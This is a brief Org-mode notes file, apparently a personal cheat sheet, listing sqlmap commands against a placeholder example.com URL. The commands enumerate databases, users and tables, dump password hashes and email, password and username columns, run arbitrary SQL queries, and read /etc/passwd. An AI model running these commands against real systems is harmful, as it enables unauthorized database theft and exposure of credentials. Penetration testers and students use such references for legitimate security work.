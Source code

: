 #+TITLE: sqlmap
#+LINK_UP: index.html
#+LINK_HOME: index.html
#+OPTIONS: H:3 num:t toc:2 \n:nil @:t ::t |:t ^:{} -:t f:t *:t <:t

* Example
  #+BEGIN_SRC sh
    sqlmap -u "http://example.com"
    sqlmap -u "http://example.com" --dbs
    sqlmap -u "http://example.com" --users
    sqlmap -u "http://example.com" --current-user --threads 5
    sqlmap -u "http://example.com" --tables -D "scut" # 获取表名
    sqlmap -u "http://example.com" --passwords
    sqlmap -u "http://example.com" --dump-all
    sqlmap -u "http://example.com" --columns -T "users" -D "scut"
    sqlmap -u "http://example.com" --dump -C "email,password,username" -T "users" -D "scut"
    sqlmap -u "http://example.com" --dump -T "users" -D "scut"
    sqlmap -u "http://example.com" --sql-query "SELECT @@datadir"
    sqlmap -u "http://example.com" --file-read="/etc/passwd"
    sqlmap -u "http://example.com"
    sqlmap -u "http://example.com"
    sqlmap -u "http://example.com"
  #+END_SRC
